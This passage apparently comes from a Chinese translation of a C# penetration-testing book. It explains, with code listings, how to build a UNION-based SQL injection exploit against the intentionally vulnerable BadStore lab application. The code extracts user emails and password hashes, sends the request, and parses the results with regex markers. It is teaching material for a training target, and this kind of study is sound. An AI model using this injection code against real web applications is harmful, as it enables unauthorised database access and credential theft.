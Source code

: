 首先，我们创建三个字符串，分别作为前部 ➊、中部 ➋ 和尾部 ➌ 标记。这些标记将用于查找并分隔我们从数据库中获取的用户名和密码，它们会出现在 HTTP 响应中。我们还需要创建这些标记的十六进制表示，这将用于负载中。为此，每个标记需要稍微处理一下。

我们使用 LINQ 方法 Select() ➎ 来迭代标记字符串中的每个字符，将每个字符转换为其十六进制表示形式，并返回处理后的数据数组。在这个例子中，它返回一个包含 2 字节字符串的数组，每个字符串都是原始标记中一个字符的十六进制表示。

为了从这个数组中创建一个完整的十六进制字符串，我们使用 Join() 方法 ➍ 来将数组中的每个元素连接起来，从而生成一个表示每个标记的十六进制字符串。

构建带有负载的 URL

现在，我们需要构建 URL 和负载来发送 HTTP 请求，如清单 2-35 所示。

> string url = ➊"http://" + ➋args[0] + "/cgi-bin/badstore.cgi";
> 
> string payload = "fdsa' UNION ALL SELECT";
> 
> payload += " NULL, NULL, NULL, CONCAT(0x"+frontHex+", IFNULL(CAST(email AS";
> 
> payload += " CHAR), 0x20),0x"+middleHex+", IFNULL(CAST(passwd AS";
> 
> payload += " CHAR), 0x20), 0x"+endHex+") FROM badstoredb.userdb# ";
> 
> url += ➌"?searchquery=" + Uri.➍EscapeUriString(payload) + "&action=search"; 列表 2-35: 在漏洞利用的 Main() 方法中构建带有载荷的 URL

我们创建了 URL ➊ 来发起请求，使用了漏洞利用的第一个参数 ➋：BadStore 实例的 IP 地址。一旦创建了基本的 URL，我们就构建了一个载荷，用来从数据库中返回用户名和密码哈希，其中包括我们用来分隔用户名和密码的三个十六进制字符串。正如前面所述，我们将标记编码为十六进制，以确保在标记被回显而没有我们想要的数据时，我们的正则表达式不会错误地匹配它们并返回垃圾数据。最后，我们通过将易受攻击的查询字符串参数与载荷附加到基本 URL 上，来组合载荷和 URL ➌。为了确保载荷不包含任何 HTTP 协议特有的字符，我们将载荷传递给 EscapeUriString() ➍，然后再将其插入查询字符串中。

发起 HTTP 请求

我们现在准备好发起请求并接收包含从数据库中提取的用户名和密码哈希的 HTTP 响应，数据是通过 SQL 注入载荷获得的（见 列表 2-36）。

> HttpWebRequest request = (HttpWebRequest)WebRequest.➊Create(url);
> 
> string response = string.Empty;
> 
> 使用 (StreamReader reader = ➋new StreamReader(request.GetResponse().GetResponseStream()))
> 
> response = reader.➌ReadToEnd(); 列表 2-36: 创建 HTTP 请求并读取服务器的响应

我们通过创建一个新的 HttpWebRequest ➊，并使用我们之前构建的包含 SQL 注入载荷的 URL，来创建一个基本的 GET 请求。然后我们声明一个字符串来保存响应，默认将其赋为空字符串。在使用语句的上下文中，我们实例化一个 StreamReader ➋ 并将响应 ➌ 读取到我们的响应字符串中。现在我们已经获得了服务器的响应，我们可以使用我们的标记创建一个正则表达式，按照 列表 2-37 的示例，在 HTTP 响应中查找用户名和密码。

> Regex payloadRegex = ➊new Regex(frontMarker + "(.*?)" + middleMarker + "(.*?)" + endMarker);
> 
> MatchCollection matches = payloadRegex.➋Matches(response);
> 
> foreach (Match match in matches)
> 
> {
> 
> Console.➌WriteLine("用户名: " + match.➍Groups[1].Value + "\t ");
> 
> Console.Write("密码哈希: " + match.➎Groups[2].Value);
> 
> }
> 
> }
